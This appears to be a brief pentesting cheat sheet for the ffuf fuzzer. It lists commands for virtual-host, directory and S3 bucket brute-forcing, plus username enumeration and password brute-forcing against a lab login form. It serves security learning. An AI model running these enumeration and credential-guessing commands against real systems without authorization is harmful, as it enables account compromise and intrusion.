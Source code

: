 FFuf bruteforces subdomains, directories, etc. 

`ffuf -w <wordlist> -u http://<IP> -H "HOST: FUZZ.<FQDN>" -fs 612` - VHost brute

`ffuf -w <wordlist> -u http://<IP>/FUZZ` - Dir brute

`ffuf -w <wordlist> -u http://FUZZ.s3.amazonaws.com` - S3 Bucket brute

`ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.221.107/customers/signup -mr "username already exists"` - Example username enumeration brute

`ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.221.107/customers/login -fc 200` - Example login brute

Install with apt on Kali.
